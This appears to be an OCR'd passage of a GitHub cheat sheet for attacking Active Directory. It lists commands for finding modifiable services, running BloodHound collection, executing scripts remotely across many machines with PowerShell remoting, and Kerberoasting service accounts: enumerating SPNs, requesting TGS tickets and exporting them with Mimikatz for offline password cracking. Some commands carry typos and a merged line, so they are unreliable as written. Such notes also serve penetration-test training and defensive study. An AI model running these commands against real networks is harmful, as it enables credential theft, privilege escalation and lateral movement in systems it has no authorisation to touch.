 > Get services whose configuration can be modified by the current user 
>
> > `Get-ModifiableService -Verbose`

> BloodHund Exec 

> > `Invoke-BloodHund -CollectionMethods All` **Then**
> >
> > `Invoke-BloodHund -CollectionMethods All -ExcludeDC` 

**Remote command Execution**

> ```
> $sess = New-PSSession -ComputerName Server1
> 
> Invoke-Command -Session $sess -ScriptBlock{$proc = Get-Process}
> 
> Invoke-Command -Session $sess -FilePAth C:\AD\Tools\XX.ps1
> 
> Invoke-Command -Session $sess -ScriptBlock {$Proc.Name}
> 
> Enter-PSSession -Session $sess
> ```

> ***Run on Multiple Machines*** 
>
> > `Invoke-Command -FilePath C:\DDFDF.ps1 -ComputerName (Get-Content ServerList.File)`

***Privs Escalation***

> :one: ***Kerberoast*** : Offline cracking TGS Hashes 
>
> > :information_desk_person: Offline password decryption : save ticket on HDD and try to decrypt the ticket 
> >
> > :bulb: **ServicePrincipalName** ***is not null*** if the used account is a **services account**
> >
> > **Search for Services Accounts**
> >
> > > ***Powerview***
> > >
> > > > ```powershell
> > > > Get-NetUser -SPN
> > > > ```
> >
> > >  ***AD module***
> > >
> > > > ```powershell
> > > > Get-ADUser -Filter {ServicePrinicpalName -ne "$null"} -Properties ServicePrinicpalName
> > > > ```
> >
> > :one: :one: ***Request a TGS***
> >
> > > **AD Module** 
> > >
> > > > ```powershell
> > > > Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <ServicePrinicpalNAme>
> > > > 
> > > > klist 
> > > > ```
> > > >
> > > >  Export Ticket to the Disk 
> > > >
> > > > ```powershell
> > > > Invoke-Mimikatz -Command '"kerberos::list /export"'
> > > > ```
